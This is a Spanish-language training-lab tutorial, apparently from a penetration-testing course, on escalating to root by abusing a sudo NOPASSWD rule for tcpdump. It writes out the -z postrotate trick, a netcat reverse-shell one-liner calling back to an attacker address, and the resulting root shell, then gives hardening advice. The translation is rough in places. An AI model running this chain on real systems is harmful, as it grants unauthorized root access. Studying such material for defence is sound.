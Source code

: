 # Abuso de derechos de sudo

---

Los privilegios de sudo se pueden otorgar a una cuenta, permitiendo que la cuenta ejecute ciertos comandos en el contexto de la raíz (u otra cuenta) sin tener que cambiar a los usuarios o otorgar privilegios excesivos. Cuando el`sudo`Se emite el comando, el sistema verificará si el usuario que emite el comando tiene los derechos apropiados, según lo configurado en`/etc/sudoers`. Al aterrizar en un sistema, siempre debemos verificar si el usuario actual tiene privilegios de sudo escribiendo`sudo -l`. A veces necesitaremos conocer la contraseña del usuario para enumerar su`sudo`derechos, pero cualquier entrada de derechos con el`NOPASSWD`La opción se puede ver sin ingresar una contraseña.

  Abuso de derechos de sudo

```shell-session
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

Es fácil configiar esto. Por ejemplo, se les puede otorgar permisos de nivel raíz a un usuario sin requerir una contraseña. O la línea de comando permitida podría especificarse con demasiada liberación, lo que nos permite ejecutar un programa de manera no deseada, lo que resulta en una escalada de privilegios. Por ejemplo, si el archivo de sudoers se edita para otorgar a un usuario el derecho de ejecutar un comando como`tcpdump`según la siguiente entrada en el archivo de sudoers:`(ALL) NOPASSWD: /usr/sbin/tcpdump`un atacante podría aprovechar esto para aprovechar el**mando**opción.

  Abuso de derechos de sudo

```shell-session
htb_student@NIX02:~$ man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

Al especificar el`-z`bandera, un atacante podría usar`tcpdump`Para ejecutar un script de shell, obtenga un shell inverso como usuario root o ejecute otros comandos privilegiados. Por ejemplo, un atacante podría crear el script de shell`.test`Contiene un shell inverso y ejecutarlo de la siguiente manera:

  Abuso de derechos de sudo

```shell-session
htb_student@NIX02:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

Probemos esto. Primero, haga un archivo para ejecutar con el`postrotate-command`, agregando una línea de un enlace de un shell inversa simple.

  Abuso de derechos de sudo

```shell-session
htb_student@NIX02:~$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

A continuación, comienza un`netcat`oyente en nuestra caja de ataque y correr`tcpdump`como raíz con el`postrotate-command`. Si todo va según lo planeado, recibiremos una conexión de shell inverso de raíz.

  Abuso de derechos de sudo

```shell-session
htb_student@NIX02:~$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```

Recibimos un caparazón de raíz casi al instante.

  Abuso de derechos de sudo

```shell-session
xnoxos@htb[/htb]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

[Aparmor](https://wiki.ubuntu.com/AppArmor)En distribuciones más recientes, ha predefinido los comandos utilizados con el`postrotate-command`, evitando efectivamente la ejecución de comandos. Dos mejores prácticas que siempre deben considerarse al aprovisionar`sudo`Derechos:

|||
|---|---|
|1.|Siempre especifique la ruta absoluta a cualquier binarios enumerados en el`sudoers`entrada de archivo. De lo contrario, un atacante puede aprovechar el abuso de ruta (que veremos en la siguiente sección) para crear un binario malicioso que se ejecutará cuando se ejecute el comando (es decir, si el`sudoers`La entrada especifica`cat`en lugar de`/bin/cat`Esto probablemente podría ser abusado).|
|2.|Conceder`sudo`derechos con moderación y basados ​​en el principio de menor privilegio. ¿El usuario necesita completo?`sudo`¿Derechos? ¿Pueden realizar su trabajo con una o dos entradas en el`sudoers`¿archivo? Limitar el comando privilegiado que un usuario puede ejecutar reducirá en gran medida la probabilidad de una escalada de privilegios exitosa.|